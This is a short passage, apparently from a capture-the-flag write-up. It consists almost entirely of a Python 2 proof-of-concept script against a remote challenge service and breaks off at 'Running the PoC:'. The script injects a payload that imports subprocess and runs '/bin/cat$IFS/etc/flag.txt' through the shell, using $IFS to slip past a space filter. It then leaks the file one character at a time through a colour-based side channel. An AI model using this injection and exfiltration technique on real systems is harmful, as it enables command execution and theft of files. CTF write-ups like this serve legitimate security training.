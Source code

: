 ```python3
payload = "ord(__import__('subprocess').check_output('/bin/cat$IFS/etc/flag.txt',shell=True).decode('utf-8').rstrip('\\n')[%s])"

t= []

print "[*] Dumping Colors for all /etc/flag.txt characters"


for i in range(0,35,1):
	p = payload % i
#	print p

	conn.sendline(p)
	color =  conn.recvline()
	color = color.rstrip('\n').replace(">","").replace(" ","")
	print color
	try:
		t.append(d[color])
		
	except:
		print "ERrro"
print ''.join(t)
```

Running the PoC:

